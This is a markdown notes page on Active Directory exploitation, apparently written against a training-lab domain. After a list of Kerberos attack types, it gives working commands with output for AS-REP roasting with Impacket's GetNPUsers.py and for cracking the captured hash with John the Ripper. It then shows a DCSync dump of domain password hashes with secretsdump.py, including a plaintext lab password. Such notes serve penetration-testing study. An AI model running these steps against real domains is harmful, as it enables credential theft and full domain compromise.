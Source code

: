```yaml
---
title: AD Exploitation
description: Introduction to Active directory exploitation.
---
```


# Active Directory - Exploitation

## Type of attacks & requirements

- Kerbrute Enumeration - No domain access required 
- Pass the Ticket - Access as a user to the domain required
- Kerberoasting - Access as any user required
- AS-REP Roasting - Access as any user required  
- Golden Ticket - Full domain compromise (domain admin) required 
- Silver Ticket - Service hash required 
- Skeleton Key - Full domain compromise (domain admin) required

## ASREPRoasting

GetNPUsers.py : `Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking`

The only thing that's necessary to query accounts is a valid set of usernames.

```bash
$ GetNPUsers.py spookysec.local/ -dc-ip 10.10.169.152 -no-pass -usersfile valid_users.lst
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[-] User james@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:6f85816183fca475066c51e9261ec717$eafe07ec0e87349f2ab00582d7becda....
[-] User James@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[...]
```

Hash :
- Hashcat ID : 18200
- Name : Kerberos 5, etype 23, AS-REP

```bash
$ cat kerberos.hash
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:6f85816183fca475066c51e9261ec717$eafe...
$ john --wordlist=/opt/rockyou.txt kerberos.hash
[...]
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
managxxxxxxx   ($krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL)
```

## User synchronization

An account can have a permission that allows all Active Directory changes to be synced with an account. This includes password hashes. `secretsdump.py` allows you to retrieve all the passwords synced with the domain controller.

```bash
$ secretsdump.py -just-dc 'spookysec.local/backup:backup2517860@10.10.169.152'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94...:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```